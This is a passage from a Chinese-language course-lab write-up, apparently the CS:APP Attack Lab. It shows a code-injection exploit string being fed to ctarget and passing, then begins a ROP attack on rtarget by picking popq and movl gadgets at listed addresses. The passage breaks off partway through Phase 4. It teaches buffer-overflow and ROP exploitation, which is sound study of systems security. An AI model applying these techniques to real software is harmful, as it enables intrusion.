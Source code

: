 转换为原始字节序列并传递给 `ctarget` 程序：

```bash
cat phase3.txt | ./hex2raw | ./ctarget
```

```text
Cookie: 0x24c8ce66
Type string:Touch3!: You called touch3("24c8ce66")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

# Phase 4

在 phase 4 中，我们需要针对 `rtarget` 程序实现 ROP 攻击。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们需要构造一个输入，使得 `getbuf` 函数返回后，程序的控制流跳转到 `touch2` 函数。但由于栈随机化，我们需要利用 ROP 技术，通过一系列的 gadgets 来实现对 `touch2` 函数的调用。

具体来说，我们需要找到合适的 gadgets 来构造 ROP 链，首先是将 cookie 的值加载到寄存器中，然后调用 `touch2` 函数。将值加载到寄存器中可以通过 `popq` 指令实现，这样我们只需要将 cookie 的值放到栈上即可。

清楚我们需要什么指令后，从 gadgets 库中寻找合适的 gadgets 组成 ROP 链：

```x86asm
; Gadget 1
401e9c: 58 c3 2c    popq %rax
                    ret
; Gadget 2
401e87: 89 c7 c3    movl %eax, %edi
                    ret
```
